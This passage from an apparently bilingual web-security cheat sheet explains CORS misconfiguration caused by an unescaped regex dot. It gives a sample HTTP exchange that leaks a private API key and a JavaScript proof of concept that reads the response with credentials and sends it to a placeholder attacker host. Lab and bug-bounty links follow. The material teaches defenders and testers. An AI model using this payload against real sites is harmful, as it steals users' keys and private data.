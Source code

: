 #### Vulnerable Implementation (Example 2) - 漏洞实现2

在这种情况下，服务器使用正则表达式，其中 `.` 未正确转义。例如，`^api.example.com$` 而不是 `^api\.example.com$`。因此，可以将 `.` 替换为任何字母，以从第三方域获得访问权限。

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept (Example 2) - 概念验证2

此 PoC 需要将相应的 JS 脚本托管在 `apiiexample.com`：

```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

## Labs

- [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
- [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
- [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
- [CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## Bug Bounty reports

- [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
- [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
- [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
- [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
- [[██████\] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

